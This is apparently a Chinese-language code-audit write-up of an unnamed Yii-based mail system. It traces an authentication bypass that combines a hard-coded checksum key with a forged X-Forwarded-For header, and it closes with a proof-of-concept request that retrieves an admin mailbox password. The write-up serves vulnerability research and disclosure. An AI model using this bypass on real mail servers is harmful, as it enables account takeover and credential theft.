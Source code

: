 0x00 前言
-------

近期拿到了某邮件系统的一套源码，看到是YII框架编写的，本着学习YII框架出发，顺带对该套系统进行了审计。

0x01 YII框架路由初识
--------------

​ YII框架支持两种URL构造格式，分别为默认的格式和漂亮格式，漂亮格式使用额外的路径跟在入口脚本名之后，来展现路由和相关参数，默认格式`/index.php?r=post/view&id=100` 的路由为`post/view`和参数id为100，使用漂亮格式则简化成`/index.php/post/100`。

![image-20210326115135883](https://shs3.b.qianxin.com/butian_public/f28967689da0c6b3109ce9f0b57f3aef999532f63543f.jpg)

​ YII框架使用MVC模式进行开发，如果不了解MVC模式可以参考链接，不再赘述：<https://www.yiichina.com/doc/guide/1.1/basics.mvc>

​ 想访问API目录下的controller 目录中的`abccontroller.php`内的`public function add()`方法，可如下构造

<http://127.0.0.1/api/index.php?r=abc/add>

0x02 漏洞挖掘-任意登录
--------------

在api/controllers/PostController.php中存在一个模拟登陆方法：

```php
public function mockLogin() {
   $language = $this->getParamFromRequest( "language" );
   $name = $this->getParamFromRequest( 'domain' );
   if (isset( $name )  && isset( $language )) {
      $username = "admin";
      if (! in_array( $language, array ("cn", "tw", "en" ) )) {
         $this->returnErrorCode( CommonCode::COMMON_PARAM_ERROR, array ('{0}' => 'language' ) );
      }
      if (! ParameterChecker::checkLength( $name, Constants::DOMAIN_NAME_MAX_LENGTH )) {
         $this->returnErrorCode( CommonCode::COMMON_DOMAIN_LENGTH_WRONG );
      }
      $domain = ServiceFactory::getDomainService()->getDomainByName( PunyCode::encode( strtolower( $name ) ) );
      if ($domain == null) {
         $this->returnErrorCode( CommonCode::COMMON_DOMAIN_IS_NOT_EXISTS );
      }
      $domainName = PunyCode::encode( $name );
      $password = (empty($domain))?"":$domain["po_pwd"];
      $otime = time();
      $sysflag = 'sysmanage';
      $checksum = md5( $sysflag . $username . $domainName . $password. $language . time() . Config::MONI_CHECKSUM_KEY );
      $url = "http://" . ClientUtils::getHttpHost() . "/post/post.php?r=site/analogLogin&sysflag=$sysflag&lan=$language&domain=$domainName&username=$username&checksum=$checksum&otime=$otime";
      header( "location:$url" );
   } else {
      $this->returnErrorCode( CommonCode::COMMON_PARAM_INCOMPLETE );
   }
}
```

![image-20210411141359477](https://shs3.b.qianxin.com/butian_public/f78490259cb1cf9ded89524f2caad9fc780ce488369d5.jpg)

获取参数language和domain确定语言与域,传入 经过校验以后与`po_pwd`、`MONI_CHECKSUM_KEY`等结合起来构造校验的$checksum，成功进行登录。该接口需要验证，直接构造无法通过验证。

接下来跟到上文中提到的验证的位置，该位置为所有API方法调用时必须校验的方法：

api/classes/ApiController.php

```php
private function checkServerTypeParams() {
   if (! in_array( ClientUtils::getClientIP(), Config::getApiAllowUserIps() )) {
      $this->returnErrorCode( CommonCode::COMMON_ILLEGAL_IP_SOURCE );
   }
   $id = $this->getParamFromRequest( 'id' );
   $time = $this->getParamFromRequest( 'otime' );
   if (! ParameterChecker::checkLength( $time, 20 )) {
      $this->returnErrorCode( CommonCode::COMMON_ILLEGAL_CHECK_PARAM );
   }
   if (! ParameterChecker::checkIsDate( $time )) {
      $this->returnErrorCode( CommonCode::COMMON_ILLEGAL_CHECK_PARAM );
   }
   $checkSum = $this->getParamFromRequest( 'ochecksum' );
   if (! ParameterChecker::checkLength( $checkSum, 32 )) {
      $this->returnErrorCode( CommonCode::COMMON_ILLEGAL_CHECK_PARAM );
   }
   $md5String = md5( $id . $time . Config::API_CHECKSUM_KEY );
   if ($md5String != $checkSum) {
      $this->returnErrorCode( CommonCode::COMMON_ILLEGAL_CHECKSUM );
   }
}
```

![image-20210526154435460](https://shs3.b.qianxin.com/butian_public/f2976640b8d02ad062c422717421210ed027645333a7a.jpg)

可以看到该接口需要获取IP，并且与可允许的IP进行匹配，如果为同一个IP则进入该方法。 进入该验证方法以后前端传入`ID`,`OTIME`与`ONCHECKSUM`进行验证，其中ID为固定ID，为模拟登陆模式，time为日期形式可以是随便一个日期只要符合条件就行，`ONCHECKSUM`则与`ID`,`OTIME`和`API_CHECKSUM_KEY`三者拼接起来的md5校验是否一致，最终校验通过以后验证通过，可以执行后续方法。

如图为ID固定ID：

![image-20210411142840006](https://shs3.b.qianxin.com/butian_public/f138597c0278b4356e1f103ce9bb8f7b936c89ce1651c.jpg)

加密时需要一个`API_CHECKSUM_KEY`,全局搜索发现该key同样硬件key：

![key写死](https://shs3.b.qianxin.com/butian_public/f8f5345fb1016f2c843fb6307b4501772.png)

所以`ONCHECKSUM`成功可以构造。但是需要进入`checkServerTypeParams`方法，仍需要验证IP，我们跟一下`getApiAllowUserIps`，发现可以被绕过:

![获取ip](https://shs3.b.qianxin.com/butian_public/f1002443f9e4f2aa07cc062f7e026d52fdaa820b849ae.jpg)

看到了熟悉的获取`x-forwarded-for`，可以实现伪造，在看`$realip`的定义，直接固定ip写在代码里：

![ip绕过](https://shs3.b.qianxin.com/butian_public/f08e8e92cab894fe83c829856a71fc6be.png)

可以利用插件X-Forwarded-For Header伪造`x-forwarded-for`：

![img](https://shs3.b.qianxin.com/butian_public/f862401c045f626dec22e968544c66ce54356b6a9ca8a.jpg)

结合以上所有点最终能够实现模拟登陆的功能

poc:

```html

http://mail.a.com/api/index.php?r=Mailbox/getPassword

id=cm&otime=2021-03-11&ochecksum=083d71127d5ad99f8907358db2c8320a&language=cn&domain=a.com&mailbox=admin@a.com
```